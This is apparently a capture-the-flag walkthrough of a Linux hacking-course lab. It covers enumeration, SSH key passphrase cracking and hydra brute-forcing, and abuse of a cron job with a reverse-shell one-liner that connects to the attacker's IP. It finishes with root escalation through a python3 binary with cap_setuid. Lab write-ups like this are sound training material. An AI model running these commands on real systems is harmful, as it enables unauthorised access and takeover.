

# Ascension

## **Scenario**

This is the Capstone Challenge for Ryan's [Hacking Linux course on Simply Cyber Academy](https://academy.simplycyber.io/l/pdp/linux-hacking). As a result, this lab isn't strictly focused on realism, but rather teaching proper enumeration, lateral movement, and privilege escalation on a Linux machine.

There are 6 flags on the machine (you can see the location of each by clicking the 'hint' button to make it less of a rabbit chase). There are also multiple ways to solve the machine... so if you solve it in one way, you can go back and see if you can find the 2nd way.

Happy hacking!

Append the received IP into `/etc/hosts`

```bash
10.1.2.247     ascension.hsm
```

---

## Port Scan

```bash
└─$ rustscan -a ascension.hsm -- -A -oN nmap.log

...

Open 10.1.2.247:22
Open 10.1.2.247:80
Open 10.1.2.247:111
Open 10.1.2.247:2049
Open 10.1.2.247:35441
Open 10.1.2.247:35589
Open 10.1.2.247:42649
Open 10.1.2.247:49261
Open 10.1.2.247:56025

...

PORT      STATE SERVICE  REASON         VERSION
21/tcp    open  ftp      syn-ack ttl 62 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.0.0.247
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             202 Sep 21  2025 pwlist.txt
22/tcp    open  ssh      syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 07:55:51:6f:96:8a:78:6c:91:2c:8e:c0:ff:20:d0:25 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwZQ/f4r2OBrvLI4midWWhDsViwMqzZqUy9/vJ1c4z9y5vo0t55cZO7WB4zZ5+8jUxE/53oWhJSFITa3bceekM=
|   256 b1:30:a0:f7:24:2f:65:24:66:21:18:13:3c:56:80:0a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIcLJMlMiQcEhrAaK9C9xcZV4MnJ51/28w15RMBkEolO
80/tcp    open  http     syn-ack ttl 62 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
111/tcp   open  rpcbind  syn-ack ttl 62 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33235/udp   mountd
|   100005  1,2,3      41069/tcp6  mountd
|   100005  1,2,3      45724/udp6  mountd
|   100005  1,2,3      49261/tcp   mountd
|   100021  1,3,4      35441/tcp   nlockmgr
|   100021  1,3,4      43795/udp6  nlockmgr
|   100021  1,3,4      46163/tcp6  nlockmgr
|   100021  1,3,4      59955/udp   nlockmgr
|   100024  1          35451/udp   status
|   100024  1          35589/tcp   status
|   100024  1          53587/tcp6  status
|   100024  1          54993/udp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 62 3 (RPC #100227)
35441/tcp open  nlockmgr syn-ack ttl 62 1-4 (RPC #100021)
35589/tcp open  status   syn-ack ttl 62 1 (RPC #100024)
42649/tcp open  mountd   syn-ack ttl 62 1-3 (RPC #100005)
49261/tcp open  mountd   syn-ack ttl 62 1-3 (RPC #100005)
56025/tcp open  mountd   syn-ack ttl 62 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 (99%), Linux 2.6.32 - 3.13 (96%), Linux 5.0 - 5.14 (96%), Linux 5.14 - 6.8 (96%), Linux 3.2 - 4.14 (96%), Linux 4.15 - 5.19 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.4 - 5.15 (95%), Linux 3.10 - 4.11 (94%), Linux 2.6.32 - 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
```

FTP seems to have some valuables, and so do RPC.

---

## FTP

Using Anonymous Login, we get a `pwlist.txt`

```bash
└─$ ftp anonymous@ascension.hsm
Connected to ascension.hsm.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||5291|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             202 Sep 21  2025 pwlist.txt
226 Directory send OK.
ftp> get pwlist.txt
local: pwlist.txt remote: pwlist.txt
229 Entering Extended Passive Mode (|||57392|)
150 Opening BINARY mode data connection for pwlist.txt (202 bytes).
100% |***********************************************************************************************************************************************************************************************|   202      839.42 KiB/s    00:00 ETA
226 Transfer complete.
202 bytes received in 00:00 (0.86 KiB/s)
```

However, SSH is configured for key-based authentication, so we need to break in using other methods. 

```bash
└─$ ssh root@ascension.hsm   
root@ascension.hsm: Permission denied (publickey).
```

---

## RPC

We can see that we can mount to `/srv/nfs/user1`

```bash
└─$ showmount -e ascension.hsm
Export list for ascension.hsm:
/srv/nfs/user1 *

└─$ sudo mount ascension.hsm:/srv/nfs/user1/ user1/
```

In the directory, we can see a SSH key pair, perfect!

```bash
└─$ ls user1 
id_rsa  id_rsa.pub
```

However, the private key is protected by a passphrase

```bash
─$ ssh user1@ascension.hsm -i id_rsa
The authenticity of host 'ascension.hsm (10.1.2.247)' can't be established.
ED25519 key fingerprint is: SHA256:8c2AI4XLFVZoKCYCwsO/wb50D61VgbMU7JmuchzKcJs
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ascension.hsm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

---

## SSH Passphrase Brute Force (User1)

To brute force the passphrase, we can first extract the hash using `ssh2john`

```bash
ssh2john id_rsa > hash
```

Then we can pass it to John the Ripper to crack the hash

```bash
└─$ john hash --wordlist=../pwlist.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2026-09-06 10:12) 0g/s 49.39p/s 49.39c/s 49.39C/s 
Session completed. 

└─$ john hash --show  
0 password hashes cracked, 1 left
```

It seems the passphrase is not in `pwlist.txt`. So I then use `rockyou.txt`.

```bash
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxx         (id_rsa)     
```

Using it, we can successfully log in as `user1`

```bash
└─$ ssh user1@ascension.hsm -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.14.0-1012-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Sep  6 14:49:18 UTC 2026

  System load:  0.08              Temperature:           -273.1 C
  Usage of /:   41.3% of 6.71GB   Processes:             137
  Memory usage: 30%               Users logged in:       0
  Swap usage:   0%                IPv4 address for ens5: 10.1.2.247

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Sep 21 17:45:17 2025 from 10.0.0.247
user1@ip-10-1-2-247:~$ 
```

We can take a look at the users available in the system

```bash
user1@ip-10-1-2-247:/home$ ll
total 28
drwxr-xr-x  7 root    root    4096 Sep 19  2025 ./
drwxr-xr-x 22 root    root    4096 Sep  6 13:53 ../
drwxr-x---  2 ftpuser ftpuser 4096 Sep 21  2025 ftpuser/
drwxr-x---  4 ubuntu  ubuntu  4096 Sep 21  2025 ubuntu/
drwxr-x---  5 user1   user1   4096 Sep 21  2025 user1/
drwxr-x---  2 user2   user2   4096 Sep 21  2025 user2/
drwxr-x---  2 user3   user3   4096 Sep 21  2025 user3/

```

Here is the ID. Seems to be very normal

```bash
user1@ip-10-1-2-247:/home$ id
uid=1001(user1) gid=1001(user1) groups=1001(user1)
```

There we have our flag 1

```bash
find / -type f -user user1 2> /dev/null

...

/home/user1/.profile
/home/user1/.cache/motd.legal-displayed
/home/user1/.ssh/id_rsa.pub
/home/user1/.ssh/id_rsa
/home/user1/.ssh/authorized_keys
/home/user1/.bashrc
/home/user1/.bash_logout
/opt/user1/flag1
```

---

## HTTP

I forgot to enumerate the HTTP contents :(

The HTTP page looks like this: an Apache2 Default page.



Feroxbuster returns many directories and results.

```bash
└─$ feroxbuster -u http://ascension.hsm/ -w /usr/share/wordlists/dirb/common.txt 

...

[####################] - 2m     52307/52307   0s      found:1184    errors:2544   
[####################] - 27s     4614/4614    172/s   http://ascension.hsm/ 
[####################] - 69s     4614/4614    67/s    http://ascension.hsm/wp-admin/ 
[####################] - 63s     4614/4614    73/s    http://ascension.hsm/wp-content/
```

But because most of them are PHP files, I can not read their contents right now.

```bash
200      GET       22l      105w     5952c http://ascension.hsm/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://ascension.hsm/
200      GET      363l      961w    10671c http://ascension.hsm/index.html
500      GET        4l        0w        4c http://ascension.hsm/index.php
301      GET        9l       28w      317c http://ascension.hsm/wp-admin => http://ascension.hsm/wp-admin/
301      GET        9l       28w      319c http://ascension.hsm/wp-content => http://ascension.hsm/wp-content/
301      GET        9l       28w      320c http://ascension.hsm/wp-includes => http://ascension.hsm/wp-includes/
500      GET        4l        0w        4c http://ascension.hsm/xmlrpc.php
200      GET        0l        0w        0c http://ascension.hsm/wp-includes/class-wp-paused-extensions-storage.php
200      GET        0l        0w        0c http://ascension.hsm/wp-includes/class-wp-block-bindings-source.php
200      GET        0l        0w        0c http://ascension.hsm/wp-includes/class-wp-rewrite.php
200      GET        0l        0w        0c http://ascension.hsm/wp-includes/option.php 
```
---

## Cron Task (User2)

To escalate to the next user, I have already looked around for a while, including:

- `sudo -l`: unable to check due to not knowing the password
- `find` interesting files that belong to user1: Nothing special
- Reading the Cron files under `/etc`: Normal Stuff

I was thinking maybe there is a Cron task that runs periodically, but I cannot see it due to low privileges.

To prove my guess, I use [pspy](https://github.com/dominicbreuker/pspy), and every minute, `/tmp/backup.sh` is executed

```bash
user1@ip-10-1-2-247:~$ ./pspy64 

...

2026/09/06 15:01:45 CMD: UID=0     PID=1      | /sbin/init 
2026/09/06 15:02:01 CMD: UID=0     PID=3250   | /usr/sbin/cron -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3249   | /usr/sbin/cron -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3248   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3247   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3246   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3251   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3253   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3254   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3255   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=0     PID=3256   | /usr/sbin/CRON -f -P 
2026/09/06 15:02:01 CMD: UID=1002  PID=3257   | /bin/sh -c /tmp/backup.sh 
2026/09/06 15:02:01 CMD: UID=1002  PID=3258   | /bin/sh -c /tmp/backup.sh 
2026/09/06 15:02:01 CMD: UID=???   PID=3260   | ???
2026/09/06 15:02:01 CMD: UID=1002  PID=3259   | /bin/sh -c /tmp/backup.sh 
```

The `backup.sh` is run with user2

```bash
user1@ip-10-1-2-247:~$ cat /etc/passwd|grep 1002
user2:x:1002:1002::/home/user2:/bin/bash
```

The `backup.sh` is a non-existent file that might be deleted, and the user forgot to remove the cron task

```bash
user1@ip-10-1-2-247:/tmp$ ls backup.sh
ls: cannot access 'backup.sh': No such file or directory
```

So we can write a reverse shell and remember to give the execution rights to everyone

```bash
rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|sh -i 2>&1|ncat -u 10.200.25.107 1234 >/tmp/f2
```

Now, in our nc linstener, we can see the shell

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.200.25.107] from (UNKNOWN) [10.1.2.247] 49438
sh: 0: can't access tty; job control turned off
$ whoami
user2
$ id
uid=1002(user2) gid=1002(user2) groups=1002(user2)
```

Again, don’t forget about the flag

```bash
user2@ip-10-1-2-247:/opt/user2$ ls
flag2
```

Also you might want to create a file called `.ssh/authorized_keys` and store the public key generated from `ssh-keygen`.

That way, you can use SSH which is more stable

```bash
└─$ ssh user2@ascension.hsm -i ed25519 
...
user2@ip-10-1-2-247:~$ 
```

---

## MYSQL (User3)

Previously, I did not to enumerate HTTP, so I completely forgot there might be something hiding in `var/www/html`

Inside the directory, there is a `wp-config.php` with database credentials

```php
<?php

define('DB_NAME', 'wordpress');

define('DB_USER', 'wpuser');

define('DB_PASSWORD', 'wppassword');

define('DB_HOST', 'localhost');

?>
```

We can verify that MYSQL is up using `ps`

```bash
**user1@ip-10-1-2-247:~$ ps -aux|grep mysql
mysql        864  0.7 20.7 1787340 405448 ?      Ssl  02:07   0:28 /usr/sbin/mysqld
user1       3562  0.0  0.1   7076  2200 pts/3    S+   03:09   0:00 grep --color=auto mysql**
```

With this, we can get inside the databases

```bash
user2@ip-10-1-2-247:/var/www/html$ mysql -D wordpress -u wpuser -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.43-0ubuntu0.24.04.2 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

With this, we can freely explore the database

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.00 sec)

mysql> use wordpress;
Database changed
mysql> show tables
    -> ;
+---------------------+
| Tables_in_wordpress |
+---------------------+
| flags               |
| users               |
+---------------------+
2 rows in set (0.00 sec)
```

We also get Flag 4 and user3’s crendentials

```bash
mysql> select * from flags;
+----+------------------------------------------+
| id | flag                                     |
+----+------------------------------------------+
|  1 |xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx|
+----+------------------------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+---------------+
| id | username | password      |
+----+----------+---------------+
|  1 | user3    | xxxxxxxxxxxxx |
+----+----------+---------------+
1 row in set (0.01 sec)
```

Remember, because SSH is configured for key-based authentication, we need to use `su` in an established SSH session.

```bash
user2@ip-10-1-2-247:~$ su user3
Password: 
user3@ip-10-1-2-247:/home/user2$ id
uid=1003(user3) gid=1003(user3) groups=1003(user3)
user3@ip-10-1-2-247:/home/user2$ 
```

And we get flag 5

```bash
user3@ip-10-1-2-247:/home/user2$ cd /opt/user3
user3@ip-10-1-2-247:/opt/user3$ ls
flag5
user3@ip-10-1-2-247:/opt/user3$ cat flag5
```

---

## FTP (ftpuser)

I read the [walkthrough](https://youtu.be/zi1iMBpsJyY?si=GzJOObLNeLnl0Tlo) for this one.

Previous, we have obtain `pwlist.txt`, but it is nowhere to be used.

If we look at `/etc/passwd`, we can see that `ftpuser` also has a login shell (which is also reveal in the `/home` directory)

```bash
user2@ip-10-1-2-247:~$ cat /etc/passwd|grep /bin/bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
user1:x:1001:1001::/home/user1:/bin/bash
user2:x:1002:1002::/home/user2:/bin/bash
user3:x:1003:1003::/home/user3:/bin/bash
ftpuser:x:1004:1004::/home/ftpuser:/bin/bash
user2@ip-10-1-2-247:~$ 
```

So we can try every password in `pwlist.txt` using `hydra`. And found the right one

```bash
└─$ hydra -l ftpuser -P pwlist.txt ftp://ascension.hsm -Vv -f
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-06 22:12:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:1/p:20), ~2 tries per task
[DATA] attacking ftp://ascension.hsm:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target ascension.hsm - login "ftpuser" - pass "password1" - 1 of 20 [child 0] (0/0)
[ATTEMPT] target ascension.hsm - login "ftpuser" - pass "123456" - 2 of 20 [child 1] (0/0)
...
[xx][ftp] host: ascension.hsm   login: ftpuser   password: xxxxxx
[STATUS] attack finished for ascension.hsm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-06 22:12:05                                                                                 
```

To verify, login as `ftpuser` in FTP

```bash
└─$ ftp ftpuser@ascension.hsm 
Connected to ascension.hsm.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||31097|)
150 Here comes the directory listing.
-rw-r--r--    1 1004     1004          220 Mar 31  2024 .bash_logout
-rw-r--r--    1 1004     1004         3771 Mar 31  2024 .bashrc
-rw-r--r--    1 1004     1004          807 Mar 31  2024 .profile
226 Directory send OK.

```

Remember, because SSH is configured for key-based authentication, we need to use switch user in an established SSH session.

```bash
user2@ip-10-1-2-247:~$ su ftpuser
Password: 
ftpuser@ip-10-1-2-247:/home/user2$ 
```

Now we can get the third flag

```bash
ftpuser@ip-10-1-2-247:~$ cd /opt
ftpuser@ip-10-1-2-247:/opt$ ls
ftpuser  root  user1  user2  user3
ftpuser@ip-10-1-2-247:/opt$ cd ftpuser
ftpuser@ip-10-1-2-247:/opt/ftpuser$ ls
flag3
```

---

## Python3 ownership + Capabilities (root)

While checking for file ownership, I found `python3`

```bash
user3@ip-10-1-2-247:/opt/user3$ find / -type f -user user3 2> /dev/null
...
/home/user3/python3
/home/user3/.profile
/home/user3/.bashrc
/home/user3/.bash_logout
/opt/user3/flag5
```

Here is the permissions

```bash
user3@ip-10-1-2-247:~$ ls -la python3 
-rwxr-xr-x 1 user3 user3 8021824 Sep 21  2025 python3
```

To check for capabilities, we can use `getcap`, and we found `cap_setuid`

```bash
ser3@ip-10-1-2-247:~$ getcap -r / 2> /dev/null
/home/user3/python3 cap_setuid=ep
...
```

We can then refer to [GTFOBins]([https://gtfobins.org/gtfobins/python/](https://gtfobins.org/gtfobins/python/)) under the shell capabilities section

> 
> 
> 
> This function is performed bypassing the usual kernel permission checks if the executable has certain capabilities set.
> 
> The following capabilities are needed: `CAP_SETUID`.
> 
> `python -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'`
> 

We can paste the command the terminal, and we will find that our UID has become 0, and we are allowed to set the UID

```bash
user3@ip-10-1-2-247:~$ ./python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# whoami
root

# id
uid=0(root) gid=1003(user3) groups=1003(user3)
```

With this, we can read the final flag

```bash
# ls -la root/flag6
-rw------- 1 root root 41 Sep 21  2025 root/flag6
```
